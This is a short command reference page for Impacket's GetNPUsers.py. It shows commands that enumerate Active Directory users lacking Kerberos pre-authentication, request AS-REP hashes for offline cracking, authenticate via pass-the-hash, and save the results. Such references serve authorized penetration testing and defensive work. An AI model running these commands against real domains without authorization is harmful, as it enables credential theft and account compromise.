 # getnpusers.py

> Enumerate Active Directory accounts with Kerberos pre-authentication disabled, which may be susceptible to AS-REP roasting attacks. Part of the Impacket suite. More information: <https://github.com/fortra/impacket>.

## Examples

### Enumerate users with Kerberos pre-authentication disabled (default anonymous enumeration)

```bash
GetNPUsers.py domain/ -usersfile path/to/userslist -dc-ip domain_controller_ip -no-pass
```

### Perform AS-REP roasting and dump crackable hashes for offline cracking

```bash
GetNPUsers.py domain/ -usersfile path/to/userslist -dc-ip domain_controller_ip -no-pass -request
```

### Authenticate with valid credentials (if anonymous binding is disabled)

```bash
GetNPUsers.py domain/username:password -usersfile path/to/userslist -dc-ip domain_controller_ip
```

### Use pass-the-hash authentication instead of a password

```bash
GetNPUsers.py domain/username -hashes LM_Hash:NT_Hash -usersfile path/to/userslist -dc-ip domain_controller_ip
```

### Save the output to a file for further analysis

```bash
GetNPUsers.py domain/ -usersfile path/to/userslist -dc-ip domain_controller_ip -request > path/to/output.txt
```
